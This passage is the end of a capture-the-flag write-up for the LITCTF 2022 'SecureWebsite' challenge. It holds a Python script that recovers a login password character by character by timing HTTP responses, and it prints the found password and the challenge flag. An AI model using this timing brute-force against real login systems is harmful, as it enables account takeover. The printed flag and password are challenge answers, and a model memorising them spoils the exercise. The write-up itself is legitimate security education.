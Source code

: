 ```python  
   for letter in alphabet:  
       password = base + letter  
       password = password.ljust(6, "_")  
  
       payload = submit(password)  
       # print(url + payload)

       then = time.time()  
       r = requests.get(url + payload, allow_redirects=False)  
       # print(url + payload)  
       now = time.time()

       print(password, round(now - then, 2))  
       # print(now - then, i)  
       # print(r.text)  
       if now - then > m:  
           m = now - then  
           mi = letter

       # fail is r.status_code == 302  
       print(r.status_code)  
       if r.status_code == 200:  
           print("Found:", password)  
           exit()  
       # print(i)  
       # print()  
   print(m, mi)  
   base += mi  
# Found: CxIj6p  
```  
After running this script for quite a while, we are able to get our final
password: `CxIj6p`.  
We can then login to the site and get our flag!

![flag](https://github.com/flocto/writeups/blob/main/2022/LITCTF/SecureWebsite/images/flag.png?raw=true)

```  
LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}  
```

## Notes  
An interesting take on timing attacks using web as an interface. My only issue
with this problem is the false positives when trying to find the  
length of the password, which was pretty annoying because you have basically
no idea what causes them. Otherwise most of the stuff is standard  
timing attacks implementation.

Overall still very fun! :+1:

Original writeup
(https://github.com/flocto/writeups/tree/main/2022/LITCTF/SecureWebsite).